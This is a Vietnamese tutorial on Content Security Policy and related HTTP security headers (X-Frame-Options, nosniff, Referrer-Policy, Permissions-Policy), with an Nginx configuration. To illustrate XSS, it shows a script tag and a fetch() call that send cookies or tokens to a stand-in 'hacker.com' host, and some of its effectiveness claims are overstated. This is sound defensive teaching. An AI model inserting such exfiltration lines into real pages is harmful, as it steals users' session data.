

# 🛡️ CSP (Content Security Policy) & Các Web Security Headers

> Trong cuộc chiến chống lại tin tặc, **Web Security Headers (Các tiêu đề bảo mật HTTP)** là những "vũ khí phòng thủ bị động" cực kỳ lợi hại.  
> Chỉ cần thêm vài dòng cấu hình header ở Backend hoặc Nginx, bạn có thể **tiêu diệt hoàn toàn 90% nguy cơ tấn công XSS (Cross-Site Scripting), Clickjacking và MIME Sniffing** mà không cần sửa code giao diện!

Trọng tâm số một của bài này là **CSP (Content Security Policy)** — "ông hoàng" của các security header.

---

## 🛑 1. Nỗi Đau Lớn Nhất: Tại Sao Lại Cần CSP?

Hãy tưởng tượng website thương mại điện tử của bạn cho phép người dùng bình luận sản phẩm:
- Một hacker chèn đoạn mã JavaScript độc hại vào bình luận:  
  `<script src="https://hacker.com/steal-cookie.js"></script>`
- Nếu bạn quên lọc dữ liệu (Input Sanitization), khi khách hàng khác mở trang web lên, trình duyệt sẽ ngây thơ tải file script của hacker về và **đánh cắp toàn bộ Token/Cookie của khách hàng gửi về máy chủ của hacker**.

👉 **Lúc này, CSP xuất hiện như một "Luật giới nghiêm" do Server ban hành cho Trình duyệt!**

---

## 📜 2. CSP (Content Security Policy) Hoạt Động Như Thế Nào?

Server trả về một HTTP Header có tên: `Content-Security-Policy`:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com; img-src *;
```

Dòng header này ra lệnh nghiêm khắc cho Trình duyệt:
1. **`default-src 'self'`**: Mặc định, mọi tài nguyên (ảnh, font, video, data) **chỉ được tải từ chính tên miền của website này**, cấm tải từ bất kỳ trang lạ nào khác!
2. **`script-src 'self' https://trusted-cdn.com`**: Mã JavaScript chỉ được tải từ máy chủ của tôi HOẶC máy chủ CDN tin cậy `trusted-cdn.com`. **Nếu thấy script đến từ `hacker.com` -> CHẶN ĐỨNG NGAY LẬP TỨC!**
3. **`img-src *`**: Cho phép hiển thị ảnh từ mọi nguồn.

### 🚫 CSP Triệt Hạ Đoạn Script Viết Thẳng (Inline Script)
Theo mặc định, khi bật CSP:
- Toàn bộ các đoạn mã viết trực tiếp trong HTML như `<script>alert('hack')</script>` hoặc sự kiện HTML `<button onclick="doSomething()">` **sẽ bị trình duyệt từ chối thực thi 100%**!
- Hàm nguy hiểm `eval()` cũng bị cấm chạy.
👉 **Điều này bẻ gãy hoàn toàn các cuộc tấn công XSS truyền thống!**

---

## 🧰 3. Bảng Các Chỉ Thị (Directives) Quan Trọng Nhất Của CSP

| Chỉ thị (Directive) | Ý nghĩa kiểm soát | Ví dụ cấu hình an toàn |
|---|---|---|
| **`default-src`** | Nguồn dự phòng cho tất cả các loại tài nguyên | `default-src 'self'` |
| **`script-src`** | Nơi được phép tải và chạy file JavaScript | `script-src 'self' https://apis.google.com` |
| **`style-src`** | Nơi được phép tải CSS/Stylesheet | `style-src 'self' https://fonts.googleapis.com` |
| **`img-src`** | Nơi được phép tải hình ảnh | `img-src 'self' https://i.imgur.com data:` |
| **`connect-src`** | Các URL mà `fetch()`, `axios`, WebSocket được phép bắn dữ liệu tới | `connect-src 'self' https://api.mycompany.com` |
| **`frame-ancestors`** | Những trang web nào được phép nhúng web của bạn vào thẻ `<iframe>` | `frame-ancestors 'none'` *(Chống Clickjacking)* |

> 💡 **Mẹo cực hay: `connect-src` là chốt chặn cuối cùng!**  
> Dù hacker bằng cách nào đó chèn được mã độc JS vào trang web, khi mã độc đó cố dùng lệnh `fetch('https://hacker.com/steal?data=' + token)` để tẩu tán dữ liệu ra ngoài, **`connect-src` sẽ chặn đứng lệnh gửi đó lại**! Hacker lấy được dữ liệu nhưng không thể gửi ra ngoài.

---

## 🧪 4. Chế Độ "Thử Nghiệm Không Gây Lỗi" (CSP Report-Only)

Bật CSP quá chặt có thể vô tình làm hỏng giao diện (ví dụ trang web đang dùng Google Analytics hoặc font chữ ngoài).  
Do đó, trình duyệt hỗ trợ chế độ **chỉ cảnh báo chứ không chặn**:

```http
Content-Security-Policy-Report-Only: default-src 'self'; report-uri /api/csp-violations;
```
- Trình duyệt **vẫn cho chạy web bình thường**.
- Nhưng nếu có tài nguyên vi phạm chính sách, trình duyệt sẽ âm thầm gửi một bản báo cáo JSON về endpoint `/api/csp-violations` để bạn theo dõi và chỉnh sửa whitelist trước khi bật chính thức!

---

## 🛡️ 5. "Bộ Tứ Siêu Đẳng" - Các Security Headers Bắt Buộc Khác

Ngoài CSP, bất kỳ website đạt chuẩn A+ an ninh nào cũng phải có 4 header sau:



### 1. `X-Frame-Options` (Chống Tấn Công Clickjacking)
- **Kịch bản tấn công**: Hacker tạo một web `tang-iphone-mien-phi.com`. Bên dưới nút bấm "Nhận quà", hacker nhúng trang chuyển khoản ngân hàng của bạn vào một thẻ `<iframe>` trong suốt. Bạn tưởng bấm "Nhận quà", nhưng thực chất là bấm nút "Chuyển tiền"!
- **Khắc phục**:
  ```http
  X-Frame-Options: DENY
  ```
  *(Cấm tuyệt đối không cho bất kỳ ai nhúng website của bạn vào iframe).*

### 2. `X-Content-Type-Options: nosniff` (Chống MIME-type Sniffing)
- **Kịch bản tấn công**: Hacker tải lên một file ảnh đại diện `avatar.jpg`, nhưng bên trong nội dung thực chất là code JavaScript độc hại. Một số trình duyệt thông minh quá mức sẽ tự động "đoán" (sniff) nội dung và thực thi file ảnh đó như file JS.
- **Khắc phục**:
  ```http
  X-Content-Type-Options: nosniff
  ```
  *(Ra lệnh cho trình duyệt: Nếu Server báo là ảnh thì chỉ được xử lý như ảnh, cấm đoán mò và cấm thực thi).*

### 3. `Referrer-Policy: strict-origin-when-cross-origin`
- Ngăn chặn việc lộ các thông tin nhạy cảm nằm trên URL (như mã token reset password `/reset?token=xyz123`) khi người dùng click vào một đường link trỏ sang trang web khác.

### 4. `Permissions-Policy` (Khóa phần cứng máy khách)
- Khóa quyền truy cập máy ảnh (camera), microphone, định vị GPS nếu web của bạn không cần dùng:
  ```http
  Permissions-Policy: geolocation=(), camera=(), microphone=()
  ```

---

## 🛠️ 6. Cấu Hình Toàn Bộ Headers Trên Nginx (Đạt Điểm A+ Security)

Thêm khối sau vào file cấu hình Nginx của bạn:

```nginx
server {
    listen 443 ssl http2;
    server_name mycompany.com;

    # 1. Ép HTTPS với HSTS
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;

    # 2. Chống nhúng iframe (Clickjacking)
    add_header X-Frame-Options "SAMEORIGIN" always;

    # 3. Chống đoán sai định dạng file (MIME Sniffing)
    add_header X-Content-Type-Options "nosniff" always;

    # 4. Bảo vệ thông tin Referrer
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;

    # 5. Khóa phần cứng
    add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;

    # 6. Bật Content Security Policy (CSP)
    add_header Content-Security-Policy "default-src 'self'; script-src 'self' https://trusted-cdn.com; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:;" always;

    location / {
        proxy_pass http://localhost:8080;
    }
}
```

> 🎯 **Công cụ kiểm tra chuẩn quốc tế:**  
> Sau khi cấu hình xong, bạn có thể nhập domain của mình vào trang web kiểm tra miễn phí uy tín nhất thế giới: **[securityheaders.com](https://securityheaders.com)** để xem hệ thống của mình đạt điểm **A+** hay chưa!
